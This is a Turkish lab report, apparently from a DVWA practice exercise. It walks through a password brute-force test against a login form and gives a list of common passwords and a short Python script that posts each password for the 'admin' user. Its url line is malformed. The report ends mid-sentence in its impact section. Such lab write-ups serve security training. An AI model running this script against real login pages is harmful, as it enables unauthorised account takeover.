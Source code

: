 ```
2. 'bruteforce.py' python scripti hazırladım; script wordlist satırlarını teker teker okuyup hedef login formuna POST isteği gönderiyordu. 
3. Hazırlanan 'bruteforce.py' kodu DVWA uygulaması içindeki 'bruteforce.py' dosyasına yazıldı veya sunucuda çalıştırılmalı. 
4. Script çalıştırıldı ve denemeler başladığında başarısızlık çıktıları konsola yönlendirildi. 
5. Test sonucunda: şifre  bulunamadı .

  4. Kullanılan Wordlist ve Script (Örnek)
 Örnek wordlist satırları (`wordlist.txt`):

123456
password
12345678
qwerty
abc123
letmein
...

/var/www/html/dvwa/config/wordlist.txt(wordlist dosya yolu)

python
->Bir dosya oluştur:
nano dvwa_bruteForce.py

import requests


url = url(test etmek istediğin)/login.php"  

username = "admin"

wordlist_path = "/var/www/html/dvwa/config/wordlist.txt"

session = requests.Session()

with open(wordlist_path, "r") as f:
    for password in f:
        password = password.strip()

       
        data = {
            "username": username,
            "password": password
        }

        response = session.post(url, data=data)

        if "Hoşgeldiniz" in response.text or "Welcome" in response.text:
            print(f"[+] Şifre bulundu: {password}")
            break
        else:
            print(f"[-] Denendi: {password}")
çalıştırma-> python3 dvwa_bruteForce.py
   5. Sonuç:
-> 'wordlist.txt' içindeki parolalar ile yapılan brute-force denemeleri başarısız oldu; doğru şifre bulunamadı..  
-> Test amacı (uygulamanın basit/popüler parola listelerine karşı dayanıklılığını kontrol etmek) doğrultusunda sonuç olumludur,uygulama bu testte başarılı görünüyor.


   6. Etki ve Değerlendirmesi:
-> Eğer brute-force başarısız ise güçlü parolalar denenbilir.
-> Eğer brute-force başarılı ise: 
```